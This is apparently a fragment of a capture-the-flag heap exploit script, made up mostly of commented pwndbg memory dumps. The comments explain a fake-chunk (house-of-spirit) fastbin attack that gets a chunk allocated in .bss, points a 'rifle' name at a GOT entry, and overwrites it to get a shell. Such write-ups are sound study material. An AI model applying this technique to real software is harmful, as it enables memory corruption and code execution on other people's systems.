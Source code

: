 ```python
# pwndbg> x/16w 0x8fe8410
# 0x8fe8410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x8fe8420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x8fe8430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x8fe8440:  0x41414141  0x41414141  0x41414141  0x0804a2a8
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a2c0  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x0000000a
# actually, the desrciption we enter start at 0x0804a2c0,
# and the current fake_chunk start at 0x0804a2a8,
# so we need fake anther chunk to pass the check,
# and each chunk's size is 0x40,
# so we need input anther 0x20 charactes(0x38-(0x0804a2c0 - 0x0804a2a8)) to padding to next fake_chunk,


# pwndbg> x/16w 0x8fb9410
# 0x8fb9410:  0x0000000a  0x00000041  0x00000042  0x00000000
# 0x8fb9420:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x8fb9430:  0x41414100  0x41414141  0x41414141  0x41414141
# 0x8fb9440:  0x41414141  0x41414141  0x41414141  0x0804a2a8
# pwndbg> x/16w 0x0804a2a8
# 0x804a2a8:  0x0804a2c0  0x00000000  0x00000000  0x00000000
# 0x804a2b8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2c8:  0x00000000  0x00000000  0x00000000  0x00000000
# 0x804a2d8:  0x00000000  0x00000000  0x00000041  0x00000100
# pwndbg> x/16w 0x0804a2e0
# 0x804a2e0:  0x00000041  0x00000100  0x61616161  0x61616161
# 0x804a2f0:  0x61616161  0x00000000  0x62626262  0x62626262
# 0x804a300:  0x62626262  0x62626262  0x62626262  0x62626262
# 0x804a310:  0x62626262  0x62626262  0x62626262  0x62626262
# pwndbg>


order() # free the fake chunk
# dbg()

# ...
# 0x843b350           0xa                 0x40                 Used                None              None
# 0x843b390           0xa                 0x40                 Used                None              None
# 0x843b3d0           0xa                 0x40                 Used                None              None
# 0x843b410           0xa                 0x40                 Freed                0x0              None
# pwndbg> fastbin
# fastbins
# 0x10: 0x0
# 0x18: 0x0
# 0x20: 0x0
# 0x28: 0x0
# 0x30: 0x0
# 0x38: 0x0
# 0x40: 0x804a2a0 -> 0x843b410 <- 0x0

# now we can malloc the chunk which we created
# add a rifle which rifle's name potin to a got addr,
# and edit message to rewirte the addr we jsut add to name,
# then getshell
# it's not difficult to find that after we input something,
```